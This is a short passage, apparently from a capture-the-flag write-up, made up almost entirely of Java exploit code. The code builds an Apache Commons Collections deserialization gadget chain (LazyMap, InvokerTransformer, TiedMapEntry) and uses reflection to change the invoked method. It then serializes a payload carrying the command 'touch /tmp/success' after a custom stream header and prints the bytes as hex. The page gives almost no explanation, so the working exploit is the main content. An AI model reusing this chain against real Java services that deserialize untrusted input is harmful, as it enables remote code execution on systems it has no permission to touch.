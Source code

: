 ```java
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, connector);

        HashMap expMap = new HashMap();
        expMap.put(tiedMapEntry, "value");
        outerMap.clear();
        Utils.setFieldValue(invokerTransformer, "iMethodName", "connect");

        return expMap;
    }

    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeUTF("SJTU");
        oos.writeInt(1896);
        oos.writeObject(getPayload("touch /tmp/success"));
        oos.close();
        System.out.println(Utils.bytesTohexString(barr.toByteArray()));

    }
}
```

![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220403103339.png)
